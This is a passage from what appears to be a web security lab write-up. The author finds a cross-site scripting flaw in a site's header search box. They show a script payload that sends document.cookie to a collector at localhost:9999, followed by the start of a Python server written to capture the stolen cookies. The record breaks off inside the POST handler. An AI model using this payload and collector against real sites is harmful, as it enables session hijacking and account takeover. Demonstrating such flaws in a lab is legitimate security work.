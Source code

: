 ![alt text](images/image-15.png)

I noticed that the search input in the header was vulnerable to malicious script injection:

So, I entered the following input:

```javascript
<script>     fetch('http://localhost:9999/steal-cookie', {         method: 'POST',         headers: {             'Content-Type': 'application/x-www-form-urlencoded'         },         body: 'cookies=' + encodeURIComponent(document.cookie)     })     .then(response => console.log("Cookies sent successfully!"))     .catch(err => console.error("Failed to send cookies:", err)); </script>
```

I then created a server to capture the cookie:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):

    def do_OPTIONS(self):
        self.send_response(200)
        self.send_header("Access-Control-Allow-Origin", "http://localhost:7777")
        self.send_header("Access-Control-Allow-Methods", "GET, POST, OPTIONS")
        self.send_header("Access-Control-Allow-Headers", "Content-Type")
        self.end_headers()

    def do_GET(self):
        # Handle GET requests, log the query parameters
        print("GET request received")
        print(f"Query: {self.path}")

        # Send a simple response back to the client
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.send_header("Access-Control-Allow-Origin", "http://localhost:7777")
        self.end_headers()
        self.wfile.write(b"GET request received")

    def do_POST(self):
        # Handle POST requests, typically to capture stolen cookies
        content_length = int(self.headers['Content-Length'])  # Get the length of the body data
        post_data = self.rfile.read(content_length).decode('utf-8')  # Read and decode the POST data
```
